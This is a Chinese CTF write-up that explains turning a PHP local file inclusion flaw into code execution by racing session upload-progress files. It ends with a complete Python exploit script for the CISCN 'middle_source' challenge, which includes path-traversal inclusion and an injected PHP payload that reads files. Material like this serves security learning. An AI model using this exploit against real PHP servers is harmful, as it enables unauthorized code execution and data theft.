 
> 在最近的一次ctf比赛中发现了一道题目，同时满足了phpinfo与LFI的条件，在之前一直以为是利用上传文件的缓存文件进行条件竞争，也修改了许多次脚本但并没有成功，在翻文档后才知道php session本地文件包含这个知识点，特此写下学到的知识点

# 一、What is PHP Session

在访问网站时会生成一个唯一的PHP SESSIONID，一般会储存在Cookie或者URL中的SESSIONID变量中

PHP中的 **session.save_path** 配置指定了session文件的结构深度、文件权限、存放路径，格式为 **N;MODE;/path** N表示子文件夹划分深度，MODE表示文件的umask值（默认为600），path通常为以下几个
**/var/lib/php/sessions**
**/var/lib/php/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID**

PHP在大文件流式上传时，为了将上传进度存放在session中，如果不存在session则会自动初始化，直到文件上传结束后销毁（由 **session.upload_progress.cleanup** 指定）。当 **session.upload_progress.enabled** 为默认值1时，上传文件的同时传递**name="PHP_SESSION_UPLOAD_PROGRESS** "即可利用（由 **session.upload_progress.name** 指定）

session.name通常为 **PHPSESSID** ，用作Cookie的键名。当 **session.use_strict_mode** 为默认值0时，客户端可以自定义session
即：通过Cookie传递PHPSESSID=n0b1ta后，服务器将创建对应的sess_n0b1ta文件。

[PHP Session Introduction](https://www.php.net/manual/en/intro.session.php)

# 二、利用条件

1. SESSION文件路径已知
2. 站点存在LFI漏洞

对于SESSION路径，有下列几种获取方式，可能不全，望及时补充👇

1. 默认路径，即:
   **/var/lib/php/sessions**
   **/var/lib/php/sess_PHPSESSID
   /var/lib/php/sess_PHPSESSID
   /tmp/sess_PHPSESSID
   /tmp/sessions/sess_PHPSESSID**
2. PHPINFO中的 **session.save_path**
3. 使用LFI漏洞读取php.ini中的 **session.save_path** 配置

# 三、利用思路

1. 搜寻存在LFI的页面，一般情况下有切换语言的传参等常出现此类漏洞的点
2. 寻找session文件路径，详见利用条件中的SESSION获取方式
3. 使用LFI读取SESSION文件，查看其内容判定哪些内容可以被我们控制修改
4. 若有参数可以携带我们可控的内容，将payload写进可操控参数中，包含文件即可，若无参数可携带我们可控的内容，构造文件上传内容，进行条件竞争读取，也就是下面所说的(上面也说过)👇

>PHP在大文件流式上传时，为了将上传进度存放在session中，如果不存在session则会自动初始化，直到文件上传结束后销毁（由 session.upload_progress.cleanup 指定）。当 session.upload_progress.enabled 为默认值1时，上传文件的同时传递name="PHP_SESSION_UPLOAD_PROGRESS "即可利用（由 session.upload_progress.name 指定）

# 四、Payload and EXP

CISCN 线上初赛 middle_source
该赛题无可控参数，可构造上传点，拥有phpinfo脚本，可以查看到path

```python
import io
import requests
import threading
sessid = 'S3BABFKDMFSAFLL' #指定SSID值，用于读取文件
data = {"cmd":"system('cat flag.php');"}  
def write(session):
 while True:
  f = io.BytesIO(b'a' * 1024 * 50)
  resp = session.post('http://124.70.45.83:23753/',
   data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php scandir(readfile("/etc/chbdfhfefb/fbgfaeecad/cahcbiidcb/aejfhfffba/ecdiehbhab/fl444444g"));?>'},
   files={'file': ('test.txt',f)},
    cookies={'PHPSESSID': sessid} ) #通过scandir('/etc')逐层寻找flag所在位置，嗯套
    
def read(session):
 while True:
  data={
  'filed':'',
  'cf':'../../../../../../var/lib/php/sessions/cfaefhcedg/sess_'+sessid
  }
  resp = session.post('http://124.70.45.83:23753/',data=data)
  if 'test.txt' in resp.text:
   print(resp.text)
   event.clear()
  else:
   print("[+++++++++++++]retry")
if __name__=="__main__":
 event=threading.Event()
 with requests.session() as session:
  for i in range(1,10): 
   threading.Thread(target=write,args=(session,)).start()
  for i in range(1,10):
   threading.Thread(target=read,args=(session,)).start()
 event.set()
```

# 五、实战案例

[From-lfi-to-rce-via-php-sessions](https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/)

[一道CTF题：PHP文件包含](https://chybeta.github.io/2017/11/09/%E4%B8%80%E9%81%93CTF%E9%A2%98%EF%BC%9APHP%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB/)

